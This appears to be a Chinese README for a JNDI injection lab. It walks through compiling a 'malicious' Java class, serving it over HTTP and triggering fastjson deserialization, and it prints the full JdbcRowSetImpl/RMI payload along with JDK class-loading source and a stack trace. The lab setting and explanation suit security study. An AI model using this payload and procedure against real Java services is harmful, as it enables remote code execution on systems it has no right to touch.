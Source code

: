 # 一、JndiServerWithRemoteJar

## 1.1 使用
1. 编译恶意文类：javac RemoteEvilObject.java 
2. 打包：jar cvf  remote.jar  RemoteEvilObject.class
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServerWithRemoteJar.main
4. 使用fastjson的poc即可触发漏洞
```json
{
  "aaa": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "bbb": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/anything","autoCommit":true}
}
```

## 1.2 说明
服务端将一个`ReferenceWrapper`对象绑定到`anything`上，这个对象中`Reference`设置了一个远端地址。当客户端
执行`InitialContext.lookup()`时，会进入`com.sun.jndi.rmi.registry.RegistryContext.decodeObject`，
进而执行`NamingManager.getObjectInstance`获取`Reference`实例对象，本例中就是`RemoteEvilObject`，进而
调用`javax.naming.spi.NamingManager.getObjectFactoryFromReference()`由于本地ClassPath中没有这个类，
就会去远端下载（因为`factoryLocation`的值不以`/`结尾，所以会按照jar包去解析下载的数据（原因参考`2.2`），因
此需要在第2步中进行打包为jar），下载后就会根据这个类创建对象，从而触发漏洞。
```java
public class NamingManager {

    /**
     * Retrieves the ObjectFactory for the object identified by a reference,
     * using the reference's factory class name and factory codebase
     * to load in the factory's class.
     * @param ref The non-null reference to use.
     * @param factoryName The non-null class name of the factory.
     * @return The object factory for the object identified by ref; null
     * if unable to load the factory.
     */
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 尝试从本地获取Class
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // 本地ClassPath中找不到这个类，则从ref中设置的codebase中读取
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
}
```
下载的调用栈信息如下
```text
sun.net.www.protocol.http.Handler.openConnection(Handler.java:62)
sun.net.www.protocol.http.Handler.openConnection(Handler.java:57)
java.net.URL.openConnection(URL.java:971)
sun.net.www.protocol.jar.JarURLConnection.<init>(JarURLConnection.java:84)
sun.net.www.protocol.jar.Handler.openConnection(Handler.java:41)
java.net.URL.openConnection(URL.java:971)
sun.misc.URLClassPath$JarLoader.getJarFile(URLClassPath.java:708)
sun.misc.URLClassPath$JarLoader.access$600(URLClassPath.java:587)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:667)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:660)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath$JarLoader.ensureOpen(URLClassPath.java:659)
sun.misc.URLClassPath$JarLoader.<init>(URLClassPath.java:610)
sun.misc.URLClassPath$3.run(URLClassPath.java:362)
sun.misc.URLClassPath$3.run(URLClassPath.java:352)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath.getLoader(URLClassPath.java:351)
sun.misc.URLClassPath.getLoader(URLClassPath.java:328)
sun.misc.URLClassPath.getResource(URLClassPath.java:194)
java.net.URLClassLoader$1.run(URLClassLoader.java:358)
java.net.URLClassLoader$1.run(URLClassLoader.java:355)
java.security.AccessController.doPrivileged(Native Method)
java.net.URLClassLoader.findClass(URLClassLoader.java:354)
java.lang.ClassLoader.loadClass(ClassLoader.java:423)
java.net.FactoryURLClassLoader.loadClass(URLClassLoader.java:789)
java.lang.ClassLoader.loadClass(ClassLoader.java:356)
java.lang.Class.forName0(Native Method)
java.lang.Class.forName(Class.java:266)
com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:85)
javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158) 
javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:456)
com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:120)
com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:203)
javax.naming.InitialContext.lookup(InitialContext.java:411)
JndiClient.main(JndiClient.java:28)
```

## 1.3 限制
利用条件如下：

1. RMI客户端的上下文环境允许访问远程Codebase。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。

    然而从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。
    当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。
    使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

**这也是为什么RMI的方式并不是那么通用的原因**

# 二、JndiServerWithRemoteClass

## 2.1 使用

1. 编译恶意文类：javac RemoteEvilObject.java 
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServerWithRemoteClass.main
4. 使用fastjson的poc即可触发漏洞

## 2.2 说明

跟进`sun.misc.URLClassPath#getLoader(Final Url url)`可知，当`url.getFile()`以`/`结尾时，
就会去该url下载具体的类名。本例中就是去`http://127.0.01:8086/`下载`RemoteEvilObject.class`。
如下为`getLoader`源码。
```java
public class URLClassPath {
    /*
     * Returns the Loader for the specified base URL.
     */
    private Loader getLoader(final URL url) throws IOException {
        try {
            return java.security.AccessController.doPrivileged(
                new java.security.PrivilegedExceptionAction<Loader>() {
                public Loader run() throws IOException {
                    String file = url.getFile();
                    if (file != null && file.endsWith("/")) {
                        if ("file".equals(url.getProtocol())) {
                            return new FileLoader(url);
                        } else {
                            return new Loader(url);
                        }
                    } else {
                        return new JarLoader(url, jarHandler, lmap);
                    }
                }
            });
        } catch (java.security.PrivilegedActionException pae) {
            throw (IOException)pae.getException();
        }
    }
}
```

# 三、JndiServerUseLocalClassFactory
Jndi提供的`ReferenceWrapper`包含的Class对象在客户端的ClassPath中存在，就不存在访问远程Codebase的限制了

## 3.1 使用
1. 直接运行`JndiServerUseLocalClassFactory`
2. 客户端运行即可弹出计算器

# 参考
[关于 JNDI 注入](https://paper.seebug.org/417/)
[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)
[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
[BlackHat 2016 回顾之 JNDI 注入简单解析](https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/)